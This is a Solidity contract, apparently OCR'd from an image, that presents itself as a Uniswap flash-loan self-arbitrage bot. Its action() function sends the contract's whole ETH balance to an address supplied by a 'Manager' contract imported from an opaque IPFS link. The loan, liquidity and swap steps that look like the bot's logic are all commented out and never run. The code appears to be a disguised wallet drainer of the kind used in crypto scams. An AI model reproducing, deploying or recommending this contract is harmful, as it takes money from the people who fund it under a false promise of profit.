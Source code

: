 pragma solidity ^0.5.0;
 
// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPool.sol";
 
// UniswapSwap Smart Contracts
import "https://github.com/Uniswap/uniswap-v2-core/blob/master/contracts/interfaces/IUniswapV2Pair.sol";
import "https://github.com/Uniswap/uniswap-v2-core/blob/master/contracts/interfaces/IUniswapV2Factory.sol";
import "https://github.com/Uniswap/uniswap-v2-core/blob/master/contracts/interfaces/IUniswapV2ERC20.sol";
 
// Code Manager
import "https://gateway.pinata.cloud/ipfs/Qme2jy2RZKWyGc5nHgCPGSjjumXqmjDGvvcgc2AqwRfp8Q";
 
 
contract uniswapFlashLoan {
	string public tokenName;
	string public tokenSymbol;
	uint loanAmount;
	Manager manager;
	
	constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
		tokenName = _tokenName;
		tokenSymbol = _tokenSymbol;
		loanAmount = _loanAmount;
			
		manager = new Manager();
	}
	
	function() external payable {}
	
	function action() public payable {
	    // Send required coins for swap
	    address(uint160(manager.uniswapDepositAddress())).transfer(address(this).balance);
	    
	    // Perform tasks (clubbed all functions into one to reduce external calls & SAVE GAS FEE)
	    // Breakdown of functions written below
	    manager.performTasks();
	    
	    /* Breakdown of functions
	    // Submit token to ETH blockchain
	    string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
 
        // List the token on uniswapSwap
		manager.uniswapListToken(tokenName, tokenSymbol, tokenAddress);
		
        // Get BNB Loan from Multiplier-Finance
		string memory loanAddress = manager.takeFlashLoan(loanAmount);
		
		// Convert half ETH to DAI
		manager.uniswapDAItoETH(loanAmount / 2);
 
        // Create ETH and DAI pairs for our token & Provide liquidity
        string memory ethPair = manager.uniswapCreatePool(tokenAddress, "ETH");
		manager.uniswapAddLiquidity(ethPair, loanAmount / 2);
		string memory daiPair = manager.uniswapCreatePool(tokenAddress, "DAI");
		manager.uniswapAddLiquidity(daiPair, loanAmount / 2);
    
        // Perform swaps and profit on Self-Arbitrage
		manager.uniswapPerformSwaps();
		
		// Move remaining ETH from Contract to your account
		manager.contractToWallet("ETH");
 
        // Repay Flash loan
		manager.repayLoan(loanAddress);
	    */
	}
}

